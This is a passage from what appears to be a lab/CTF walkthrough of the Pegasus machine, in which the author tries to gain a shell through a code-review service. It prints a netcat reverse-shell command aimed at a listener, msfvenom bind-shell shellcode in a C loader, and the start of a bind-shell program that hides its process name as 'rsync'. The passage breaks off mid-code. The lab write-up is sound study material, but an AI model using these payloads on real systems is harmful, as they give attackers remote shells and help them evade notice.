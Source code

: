 Ok. Well this is a interesting one. My initial thoughts were that if Mike was checking out code, he is possibly executing it? There was however no hint on what language he is expecting, so the wild goose chase began.

PHP, Python, Perl, Ruby, Bash. Name them. I tried them all. Ok maybe not all, especially not brainfk. :D However, in all of them, I tried to get the language to execute `/bin/nc 192.168.56.102 4444 -e /bin/sh` or variants thereof so that it would connect to my netcat listener on my Kali machine, and spawn me a shell.

Eventually, I came to try some C. Admittedly, I was starting to rethink my strategy by now. That was until my C source had a call to `system()` in it:

{{< figure src="/images/pegasus_code_review_security.png" >}}

Ooooooh. Ok so that was a very obvious hint that I was getting closer. For me, this boiled down to it either accepting PHP due to [system](http://php.net/manual/en/function.system.php), or C due to its [system](http://linux.die.net/man/3/system). Obviously though, `system()` is being filtered out, so I would need an alternative.

_insert fade to black_

_CAPTION: many hours later_

After exhausting my PHP attempts, it was time to move to C. My first attempt was was something along the lines of

```c
#include<stdio.h>

// msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -f c
unsigned char buf[] =
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
"\x5b\x5e\x52\x68\x02\x00\x11\x5c\x6a\x10\x51\x50\x89\xe1\x6a"
"\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0"
"\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"
"\x0b\xcd\x80";

int main()
{
    int (*ret)() = (int(*)())buf;
    ret();
}
```

This was supposed to open me a `tcp/4444` shell, but to no avail. Infact, no shellcode related execution appeared to do anything. As a last resort before I figured I'd need to get me some hints, I searched for some non-shellcode type bind shell generation C source. Unfortunately, I don’t write C socket software out of my head, but luckily Google came to the rescue and landed me on [this](http://bigpointyteeth.se/code/bindshell.c). I modified the code slightly by hardcoding my desired port and shell, and submitted it to be 'reviewed':

```c
// Source: http://webcache.googleusercontent.com/search?q=cache:52EC4LfMJX4J:bigpointyteeth.se/code/bindshell.c+&cd=11&hl=en&ct=clnk&gl=za
// http://bigpointyteeth.se/code/bindshell.c
#include <sys/types.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

#define SHELL "/bin/sh"   // shell to execute
#define NAME "rsync"        // name of the forked bindshell shown in ps

int main(int argc, char *argv[]) {
    char msg[16];
```